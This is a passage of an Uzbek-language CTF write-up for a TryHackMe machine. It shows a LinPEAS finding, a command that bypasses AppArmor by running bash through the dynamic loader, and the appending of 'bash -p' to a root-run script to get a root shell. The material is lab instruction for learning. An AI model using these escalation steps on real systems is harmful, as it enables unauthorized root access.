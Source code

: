 ```
    done
}

# Main script execution
list_containers
prompt_container_id  # Get the container ID from prompt_container_id function
select_action "$container_id"  # Pass the container ID to select_action function
```

 Va yana e'tibor qaratishimiz zarur bo'lgan LinPeas hisoboti:

![](https://raw.githubusercontent.com/akhatkulov/Write-Ups/refs/heads/main/TryHackme/Pictures/publisher_2.jpg)

AppArmon yoniq ekan...

AppArmon bu nima?

> `AppArmor` — bu **Linux Security Module (LSM)** bo‘lib, dasturlarni **cheklangan (confined)** holatda ishlashga majbur qiladi. Masalan, `bash` faqat ruxsat berilgan fayllarga kira oladi, ruxsat berilmagan joylarga esa yo‘q.

Biz buni chetlab o'tishimiz kerak. Qanday qilib desangiz quyidagi buyruq orqali:

```
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /bin/bash
```

Endi esa **/opt/run_container.sh**'ga o'zgartirish kiritamiz.

```
echo "bash -p" >> /opt/run_container.sh
```

Bu dastur root nomidan RUN bo'lgani uchun bizga ROOT huquqli shell ochib beradi endi...
